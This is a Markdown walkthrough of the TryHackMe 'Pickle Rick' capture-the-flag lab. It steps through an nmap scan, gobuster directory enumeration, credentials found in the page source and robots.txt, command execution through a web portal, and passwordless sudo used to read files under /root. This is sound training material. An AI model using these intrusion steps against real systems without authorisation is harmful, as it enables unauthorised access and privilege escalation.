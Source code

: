 # TryHackMe - Pickle Rick Walkthrough
---

## 1. Scanning

First, we start by scanning the target machine to see which ports are open.

```bash
nmap -T4 -sC -sV -A -p- 10.201.75.114
```
**Sample Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```
**Command Breakdown:**
- `-T4`: Set the speed of the scan (faster than default)
- `-sC`: Run default NSE scripts for discovery
- `-sV`: Attempt to determine the version of services
- `-A`: Enable OS detection, version detection, script scanning, and traceroute
- `-p-`: Scan all 65535 TCP ports
- SSH (22) is open → we may need credentials later.
- HTTP (80) is open → a website exists to explore.

---

## 2. Accessing the Website

We launch a browser (Firefox in our case) and type:

```
http://10.201.75.114
```

This loads the main webpage. Inspecting the page source reveals a username:

```
Username: R1ckRul3s
```

We take note of this username to use later for login.

---

## 3. Finding Hidden Directories

We use `gobuster` to enumerate hidden directories:

```bash
gobuster dir -u http://10.201.75.114 -w /usr/share/dirb/common.txt -x php,sh,txt,cgi,html,css,js,py
```

**Command Breakdown:**
- `-u`: Target URL
- `-w`: Wordlist for brute-forcing directories
- `-x`: File extensions to check

**Sample Output:**
```
/assets          (Status: 301)
/login.php       (Status: 200)
/portal.php      (Status: 200)
/robots.txt      (Status: 200)
```

We see `login.php`, `portal.php`, `assets/`, and `robots.txt`.

---

## 4. Finding the Password

Checking `robots.txt` via browser or curl:

```bash
curl http://10.201.75.114/robots.txt
```

**Output:**
```
Wubbalubbadubdub
```

This is our password. Now we can log in to `login.php` using:

- Username: `R1ckRul3s`
- Password: `Wubbalubbadubdub`

---

## 5. Accessing the Command Portal

Once logged in, we enter the **command portal**, which lets us run commands.

- First, check existing commands (files):

```bash
ls
```

**Output:**
```
Sup3rS3cretPickl3Ingred.txt
clue.txt
```

The first ingredient is in `Sup3rS3cretPickl3Ingred.txt`. Access it via:

```bash
curl http://10.201.75.114/Sup3rS3cretPickl3Ingred.txt
```

**Output:**
```
[First ingredient content]
```

---

## 6. Finding the Second Ingredient

Open `clue.txt` to get hints:

```bash
cat clue.txt
```

Hint mentions the file system → check `/home` directory:

```bash
ls /home
```

**Output:**
```
rick
ubuntu
```

Go into `rick` directory:

```bash
ls /home/rick
```

**Output:**
```
second ingredients
```

`cat` may be disabled, so we use `less` instead:

```bash
less '/home/rick/second ingredients'
```

**Output:**
```
[Second ingredient content]
```

**Explanation of `less`:**
- `less` lets you read files even if other commands (like `cat`) are blocked.
- Scrolls through content interactively without executing anything.
- [less-about](https://en.wikipedia.org/wiki/Less_(Unix)

---

## 7. Finding the Third Ingredient

Check `/root` directory:

```bash
ls /root
```

We do **not** have permission. Use `sudo` to elevate privileges:

```bash
sudo -l
```

**Output:**
```
User R1ckRul3s may run commands as root without password
```

Check contents of `/root`:

```bash
sudo ls /root
```

**Output:**
```
3rd.txt
```

Read the file using `less` with sudo:

```bash
sudo less /root/3rd.txt
```

**Output:**
```
[Third ingredient content]
```

**Explanation of `sudo`:**
- `sudo` allows running commands as the root user.
- `sudo -l` lists allowed commands without needing a password.

---

## 8. Summary of Ingredients

1. `Sup3rS3cretPickl3Ingred.txt` → First ingredient
2. `/home/rick/second ingredients` → Second ingredient
3. `/root/3rd.txt` → Third ingredient

---

# Congrats!
You have completed the Pickle Rick challenge on TryHackMe.

